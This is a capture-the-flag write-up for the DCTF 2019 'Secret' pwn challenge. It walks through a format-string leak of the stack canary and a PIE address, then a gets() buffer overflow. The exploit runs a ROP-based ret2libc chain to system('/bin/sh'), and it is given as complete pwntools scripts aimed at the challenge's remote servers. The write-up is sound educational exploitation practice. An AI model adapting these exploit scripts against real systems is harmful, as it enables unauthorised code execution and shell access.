



# _Secret_ (pwn) - DCTF 2019 Quals writeup

**Author:** _Mcsky23_

## _Description_

> Just another pwn challenge.

## _Solution_

We are given a 64 bit not stripped ELF binary. Running _checksec_ on the binary will show us that it has **canary enabled**, **NX enabled**, **Partial RELRO**, **PIE enabled**. This means libc is loaded at a random address, we can't execute shell code on the stack and instructions are loaded at random addresses.

Decompiling the binary in Ghidra we find the following:

```c
//main function
undefined8 main(void)
{
  long in_FS_OFFSET;
  char local_58 [72];
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  memset(local_58,0,0x40);
  printf("Enter your name?\nName: ");
  read(0,local_58,0x40);
  printf("Hillo ");
  printf(local_58); // <-- format string here
  secret();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

```c
//secret function
void secret(void)
{
  int iVar1;
  long in_FS_OFFSET;
  char local_98 [136];
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("Enter secret phrase !\nPhrase: ");
  gets(local_98); // <-- buffer overflow here
  printf("Entered secret > %s .\n",local_98);
  iVar1 = strcmp(local_98,"supersecretdctf2019");
  if (iVar1 == 0) {
    puts("\nYou entered the same string two times");
  }
  else {
    puts("\nEntered strings are not same!");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

First things first, we spot the format string vulnerability and the buffer overflow. Our exploit plan is the following:

1. We use the format string vulnerability to leak the canary as well as main's return address. This will actually be \_\_libc_csu_init's instruction address. Knowing at what offset \_\_libc_csu_init is in the binary we can find the program's base(the instruction at offset 0) by doing leaked_libc_csu_init - libc_csu_init offset.

2. We bypassed PIE and the canary. Now it's time for a return2libc with the buffer overflow. We use a ROP chain to leak puts's entry from the global offsets table(remember, we now know where all the functions of the program are loaded at). Using a libc database we find the version of libc and then we just call libc's system with "/bin/sh" string as an argument.

**Sounds confusing?**
Let's get to exploiting and you'll understand.

---

## Leaking the canary

Open the binary in gdb and set a breakpoint in main, right before calling printf.



There's the stack canary. We know that that's the canary because it ends with a null byte. Counting from the top we see that it's the 10th element on the stack. So therefore our format string would be %10$p? No. Keep in mind that when calling a function on 64bit, the first 5 arguments are stored in registers, then on the stack. So the correct format string payload is %15$p.

Good, we now know how to leak the stack canary. Next we have to bypass PIE.

## Bypassing PIE

Bypasing PIE consists of leaking an instruction address so we can calculate the program's base(the random address in memory where the program is loaded).

Here comes the confusing part. Looking at the screenshot above we see that we have \<main + 0\>'s address. While this is infact true on our local machine, this is not true on the remote machine. To keep things simple, we have to leak main's return address, not main's address.

I wrote the following script to leak some data of the stack

```python
from pwn import *

e = ELF("./pwn_secret")
#p = e.process()
p = remote("34.159.78.10", 30783)
context.binary = e

p.clean()

s = ""

for i in range(10, 19):
    s += ".%" + str(i) + "$p"

p.sendline(s)
output = p.recvuntil(b"Enter")
output = output.decode().replace(".", "\n")

print(output)
```

It'a really simple script. Here's the output:

```
Hillo
0x3631252e70243531
0x70243731252e7024
0xa70243831252e
(nil)
0x7ffc64159050
0xae3ef3933a48e900 <-- canary(identified by the null bytes at the end)
0x55993e600c40 <-- __libc_csu_init address
0x7f5efcfb6830
(nil)
```

With a little bit of trial and error I figured out that the return address must be after the canary.

So the payload for leaking \_\_libc_csu_init's address is %16$p.

## Exploiting the buffer overflow

As of now, we know where every instruction is loaded at and we know the canary so we can bypass the buffer overflow protection.

Let's first find the offset at which we can overwrite the rip register using _pattern create_ and _pattern search_ from gdb(I am using gef for gdb btw)



Using _pattern create 200_ we create a pattern of 200 characters, we send it as input and the we look at the rbp register. We use _pattern search_ and find the offset to be 144.

Therefore after a _return_ instruction the rip register will become what's at offset 152(144 + 8).

**Good! We now control the execution flow of the program.**

We need to find a way to leak where are libc functions loaded at in memory. We can do that by calling _puts_ to print out a GOT(global offsets table) entry.

> [+] Puts found: 0x7f51a0dd8690

Now we can find the libc version by going to https://libc.blukat.me/

Let's download this version.

By having the address of _puts_ we know where the libc base is loaded in memory(leakedPuts-putsOffset). Therefore we know the address of the _system_ function from libc, as well as the "/bin/sh" string.

**We have everything we need. Let's get a shell!**

Here's the final exploit.

```python
from pwn import *

e = ELF("./pwn_secret")
libc = ELF("./libc6_2.23-0ubuntu10_amd64.so")
#p = e.process()
p = remote("34.141.123.136", 31869)

context.binary = e

#leak canary
p.recvline()
p.recvuntil(b"Name: ")
p.sendline(b"%15$p.%16$p") #format string payload

output = p.recvline().decode()

canary = output.split(".")[0][+8:]
log.success("Canary found: %s" % canary) #canary leak
canary = int(canary, 16)

main_leak = int(output.split(".")[1][:-1], 16)
log.success("Main leak found: %s" % hex(main_leak)) #__libc_csu_init leak

#Here we set the program's base address in memory
e.address = main_leak - 3136 #3136 is the offset of __libc_csu_init

p.recvuntil(b"Phrase: ")

#First ROP chain to leak puts GOT entry
rop = ROP(e)
rop.call(e.plt["puts"], [ e.got['puts'] ] )
rop.call(e.sym["main"])

offset = 144

payload = b"A" * 136 + p64(canary) + b"B" * 8 + rop.chain() #the canary is at offset 136
p.sendline(payload)
p.recvuntil(b"same!")
p.recvline()

puts_leak = u64(p.recvline().strip(b"\n").ljust(8, b"\x00"))

log.success("Puts found: %s" % hex(puts_leak))

#Here we set libc's base address in memory
libc.address = puts_leak - libc.sym['puts']

#return gadget for aligning the stack
ret = e.address + 0x889

#Second ROP chain to call system("/bin/sh")
rop2 = ROP(e)
rop2.call(ret)
rop2.call(libc.sym['system'], [ next(libc.search(b"/bin/sh\x00")) ])

payload = b"A" * 136 + p64(canary) + b"B" * 8 + rop2.chain()

p.sendline(b"pwned")
p.sendline(payload)

p.recvuntil(b"same!")

log.success("Shell spawned!")

p.interactive()
```



That's it ;)
